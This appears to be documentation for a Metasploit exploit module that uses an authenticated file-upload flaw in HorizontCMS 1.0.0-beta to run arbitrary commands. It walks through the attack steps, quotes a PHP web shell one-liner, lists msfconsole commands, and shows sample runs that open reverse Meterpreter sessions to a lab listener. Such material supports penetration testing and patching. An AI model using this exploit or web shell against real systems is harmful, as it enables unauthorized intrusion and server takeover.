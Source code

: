 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability in HorizontCMS 1.0.0-beta and prior in order to execute arbitrary commands.

The module first tries to obtain the HorizontCMS version and a csrf token from `/admin/login`.
Next, the module tries to authenticate via an HTTP POST request to the same destination.

If authentication is successful, the module tries to upload a malicious PHP file via an HTTP POST request to
`/admin/file-manager/fileupload`. The server will store the file, but will rename it to a random string.
The module will therefore attempt to change the filename back to the original name via an HTTP POST request to `/admin/file-manager/rename`.

If the `php` target is selected, the payload is embedded in the uploaded file and the module attempts to execute the payload via an HTTP GET
request to `/storage/file_name`.
For the `linux` and `windows` targets, the module uploads a simple PHP web shell similar to `<?php system($_GET["cmd"]); ?>`.
Subsequently, it leverages the CmdStager mixin to deliver the final payload via a series of HTTP GET requests in the form of
`/storage/<php_web_shell>?<cmd>=<payload>`.

Valid credentials for a HorizontCMS user with permissions to use the FileManager are required.
This would be all users in the Admin, Manager and Editor groups if HorizontCMS is configured with the default group settings.
This module has been successfully tested against HorizontCMS 1.0.0-beta running on Ubuntu 18.04.

Vulnerable software for testing is available on GitHub [here](https://github.com/ttimot24/HorizontCMS/releases).
Detailed installation instructions for Ubuntu 16.04 and 18.04 are available
[here](https://websiteforstudents.com/how-to-install-horizontcms-on-ubuntu-18-04-16-04-with-apache2/).
These instructions recommend configuring a virtual host for HorizontCMS.
If a virtual host is enabled on the target, successful exploitation requires the `vhost` option to be set for the module.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/HorizontCMS_upload_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the HorizontCMS account]`
6. Do: `set PASSWORD [password for the HorizontCMS account]`
7. Do: `set target [target]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the HorizontCMS account to authenticate with.
### TARGETURI
The base path to HorizontCMS. The default value is `/`.
### USERNAME
The username for the HorizontCMS account to authenticate with.

## Targets
```
Id  Name
--  ----
0   PHP
1   Linux
2   Windows
```

## Scenarios
### HorizontCMS 1.0.0-beta running on Ubuntu 18.04) - PHP target
```
msf6 exploit(multi/http/horizontcms_upload_exec) > show options 

Module options (exploit/multi/http/horizontcms_upload_exec):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   PASSWORD   test              yes       Password to authenticate with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.227     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                 yes       The base path to HorizontCMS
   URIPATH                      no        The URI to use for this exploit (default is random)
   USERNAME   test              yes       Username to authenticate with
   VHOST      testhorizont.com  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP


msf6 exploit(multi/http/horizontcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is HorizontCMS with version 1.0.0-beta
[+] Successfully authenticated to the HorizontCMS dashboard
[*] Uploading payload as EaCPK1HSbRru.php...
[+] Successfully uploaded EaCPK1HSbRru.php. The server renamed it to Mflikdb8nNKTivXU3HPZnpsCy3nOu34FH1IsWaxl
[+] Successfully renamed payload back to EaCPK1HSbRru.php
[*] Executing the payload...
[*] Sending stage (39264 bytes) to 192.168.1.227
[*] Meterpreter session 1 opened (192.168.1.128:4444 -> 192.168.1.227:49968) at 2020-10-31 15:52:57 -0400
[+] Successfully deleted EaCPK1HSbRru.php

meterpreter > getuid
Server username: www-data (33)
meterpreter >
```
### HorizontCMS 1.0.0-beta running on Ubuntu 18.04 - Linux target
```
msf6 exploit(multi/http/horizontcms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is HorizontCMS with version 1.0.0-beta
[+] Successfully authenticated to the HorizontCMS dashboard
[*] Uploading payload as W6nQKce4Uq.php...
[+] Successfully uploaded W6nQKce4Uq.php. The server renamed it to L6TL9BHTAckj6UrzfSyOBvAT3Bl2uFskRHrG3pXG
[+] Successfully renamed payload back to W6nQKce4Uq.php
[*] Executing the payload via a series of HTTP GET requests to `/storage/W6nQKce4Uq.php?qo1E=<command>`
[*] Sending stage (3008420 bytes) to 192.168.1.227
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Meterpreter session 2 opened (192.168.1.128:4444 -> 192.168.1.227:49978) at 2020-10-31 15:56:58 -0400
[+] Successfully deleted W6nQKce4Uq.php

meterpreter > getuid
Server username: www-data @ ubuntu (uid=33, gid=33, euid=33, egid=33)
meterpreter > 
```
